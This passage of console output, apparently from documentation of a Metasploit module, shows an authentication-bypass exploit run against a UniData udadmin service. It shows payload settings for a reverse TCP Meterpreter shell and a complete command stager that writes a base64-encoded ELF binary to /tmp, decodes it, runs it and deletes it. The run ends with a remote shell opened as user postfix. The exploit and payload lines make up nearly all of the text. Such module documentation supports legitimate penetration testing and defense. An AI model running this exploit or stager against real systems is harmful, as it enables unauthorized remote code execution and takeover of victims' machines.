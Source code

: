```
     URIPATH                           no        The URI to use for this exploit (default is random)


  Payload options (linux/x64/meterpreter/reverse_tcp):

     Name   Current Setting  Required  Description
     ----   ---------------  --------  -----------
     LHOST  10.0.0.179       yes       The listen address (an interface may be specified)
     LPORT  4444             yes       The listen port


  Exploit target:

     Id  Name
     --  ----
     0   Default



  View the full module info with the info, or info -d command.

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > exploit

  [*] Started reverse TCP handler on 10.0.0.179:4444 
  [*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
  [+] 10.0.0.198:31438 - The target is vulnerable.
  [*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
  [*] 10.0.0.198:31438 - Authenticating to RPC service as :local: / postfix:89:1000
  [*] 10.0.0.198:31438 - Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAGgEAAAAAAAC8AQAAAAAAAAAQAAAAAAAAajlYDwVIhcB0CEgx/2o8WA8FBHAPBWo5WA8FSIXAdeox/2oJWJm2EEiJ1k0xyWoiQVpqB1oPBUiFwHhRagpBWVBqKViZagJfagFeDwVIhcB4O0iXSLkCABFcCgAAs1FIieZqEFpqKlgPBVlIhcB5JUn/yXQYV2ojWGoAagVIiedIMfYPBVlZX0iFwHnHajxYagFfDwVean5aDwVIhcB47f/m>>'/tmp/HEkgx.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/mBurX' < '/tmp/HEkgx.b64' ; chmod +x '/tmp/mBurX' ; '/tmp/mBurX' ; rm -f '/tmp/mBurX' ; rm -f '/tmp/HEkgx.b64'"]
  [*] 10.0.0.198:31438 - Sending OsCommand request
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3045348 bytes) to 10.0.0.198
  [*] 10.0.0.198:31438 - Command Stager progress - 100.00% done (863/863 bytes)
  [*] Meterpreter session 2 opened (10.0.0.179:4444 -> 10.0.0.198:40554) at 2023-01-30 14:31:14 -0800

  meterpreter > getuid
  Server username: postfix
```
